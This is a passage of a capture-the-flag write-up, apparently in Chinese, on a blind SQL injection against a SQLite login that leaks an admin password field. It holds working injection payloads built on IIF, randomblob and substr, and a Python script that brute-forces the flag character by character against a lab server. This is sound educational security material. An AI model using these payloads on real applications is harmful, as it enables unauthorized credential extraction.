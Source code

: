               json_extract(users, '$.admin.password') as c
            FROM db
            WHERE
                b = 'admin'
                AND IIF(length(c) = 10, (SELECT randomblob(1000000000 % 10) FROM sqlite_master WHERE 1 LIMIT 1), 1); -- # 
            ```
            在local測試時，FLAG1=`FLAG{test}`，也就是只有10個字，如果條件設定不符合時，就會query出東西，因為條件不符回傳1，如下圖
            ![圖片](https://hackmd.io/_uploads/SJxwu7Fwa.png)
            
            ---
            反之，就會query不出東西，也就是crash
            ![圖片](https://hackmd.io/_uploads/Hywt_QYvp.png)
        * 如果想要知道某一個字元可以substr這個function
            ```sql
            SELECT 
              json_extract(users, '$.admin.username') as a,
              json_extract(users, '$.admin.username') as b,
              json_extract(users, '$.admin.password') as c
            FROM db
            WHERE
                b = 'admin'
                AND IIF(substr(c, 1, 5) = 'FLAG{', (SELECT randomblob(1000000000 % 10) FROM sqlite_master WHERE 1 LIMIT 1), 1); -- # 
            ```
    4. 此時就可以開寫script去server端爆破FLAG1

## Exploit - Time Based SQLi
```python!
from requests import *
from string import *


strings = ascii_letters + digits + punctuation
url = "http://10.113.184.121:10081/login"

flag = ""
for i in range(27):
    if i == 26:
        flag += "}"
        break
    else:
        for string in strings:
            payload = f"admin.username\") as a,   json_extract(users, '$.admin.username') as b,   json_extract(users, '$.admin.password') as c FROM db  WHERE    b = 'admin'    AND IIF(substr(c, 1, {i + 1}) = '{flag + string}', (SELECT randomblob(1000000000 % 10) FROM sqlite_master WHERE 1 LIMIT 1), 1); -- # "

            # payload = "admin.username\") as a,   json_extract(users, '$.admin.username') as b,   json_extract(users, '$.admin.password') as c FROM db  WHERE    b = 'admin'    AND IIF(length(c) = 27, (SELECT randomblob(1000000000 % 10) FROM sqlite_master WHERE 1 LIMIT 1), 1); -- # "
            
            # print(payload)

            try:
                r = post(url=url, data={"username" : payload, "password" : "guest"})
            except:
                flag += string
                print(flag)
                break
print(flag)
```
